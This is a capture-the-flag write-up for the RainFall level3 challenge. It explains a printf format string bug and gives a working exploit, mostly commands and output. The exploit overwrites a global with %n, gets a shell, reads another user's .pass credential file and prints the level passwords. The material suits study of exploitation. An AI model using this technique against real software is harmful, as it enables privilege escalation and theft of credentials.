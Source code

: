 # Level3

## Analysis

**In `main` :**

call to function `v()`

**In `v()` :**

`fgets` on `stdin` to a string `format` with a limited size of `0x200` characters
This `format` string is used in `printf(format)` which is a vulnerability, referring to printf man
 ```
    Code such as printf(foo); often indicates a bug, since foo may
    contain a % character.  If foo comes from untrusted user input,
    it may contain %n, causing the printf() call to write to memory
    and creating a security hole.
 ```
and then it calls a `system("/bin/sh")` if the global variable `m` equal `0x40`

`m` adress:
```
(gdb) info variable
...
0x0804988c  m
...
```
___

## Exploit

Testing the printf
```
level3@RainFall:~$ python -c 'print "%x %x %x %x"' | ./level3
200 b7fd1ac0 b7ff37d0 25207825
```

If we try to store a buffer `ABCD`, its done on the fourth position
```
level3@RainFall:~$ python -c 'print "ABCD %4$x"' | ./level3
ABCD 44434241
```

We can now change global `m` using `%n` and it adress
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%4$x"' | ./level3
��804988c
```

`m` is now equal to 4 because `"\x8c\x98\x04\x08"` takes 4 bytes
It must equal `0x40` which 64
Just add 60 with `"%60d"`
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%60d" + "%4$n"' | ./level3
��                                                         512
Wait what?!
```

And we just need to keep stdin open to acces the shell
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%60d" + "%4$n"' > /tmp/level3 && cat /tmp/level3 - | ./level3
��                                                         512
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

___

*Password: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02*